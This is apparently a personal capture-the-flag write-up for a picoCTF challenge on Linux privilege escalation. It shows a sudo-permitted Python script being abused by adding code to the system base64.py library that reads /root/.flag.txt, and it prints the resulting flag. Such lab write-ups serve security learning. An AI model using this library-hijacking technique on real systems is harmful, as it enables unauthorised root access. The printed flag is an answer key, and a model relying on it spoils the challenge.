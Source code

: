 ```yaml
---
created: 2024-11-16T15:01
updated: 2024-11-16T19:43
tags:
  - escalation
---
```


python based linux escalation.
## escalation

```bash
picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```

We can run `.server.py` without password, but it is readonly.

```python [.server.py]
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

We can instead edit python libraries.

```bash
vi /lib/python3.8/base64.py
```

Add these lines

```python
import os
os.system('cat /root/.flag.txt')
```

Run the python file.

```bash
sudo /usr/bin/python3 /home/picoctf/.server.py
```

```flag
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}
```
